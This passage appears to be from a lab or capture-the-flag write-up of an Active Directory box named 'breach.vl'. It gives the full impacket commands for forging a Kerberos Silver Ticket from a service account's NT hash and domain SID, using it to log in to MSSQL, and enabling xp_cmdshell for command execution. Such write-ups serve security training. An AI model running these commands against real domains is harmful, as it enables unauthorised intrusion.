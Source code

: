And lastly, for the SPN we retrieved it from the kerberoast attack.

<img src="attachments/24dccecf8b12a924ef32ccee0c1afe71.png" />

```
ServicePrincipalName : MSSQLSvc/breachdc.breach.vl:1433
```

To create the Silver Ticket, we used **impacket-ticketer**. *Remember to choose Administrator as the user.*

```
impacket-ticketer -nthash '69596C7AA1E8DAEE17F8E78870E25A5C' -domain-sid 'S-1-5-21-2330692793-3312915120-706255856' -domain breach.vl -spn 'MSSQLSvc/breach.vl:1433' -user-id 500 Administrator
```

<img src="attachments/32bcb21a2906ecae5ea8ec2dd238f392.png" />

We then exported the saved ticket.

```
export KRB5CCNAME=Administrator.ccache
```

We then used the ticket to gain access to the MSSQL server, enabled the `xp_cmdshell`, and gained command execution as the `breach\svc_mssql` user.

```
impacket-mssqlclient -k -no-pass breach.vl -windows-auth
```
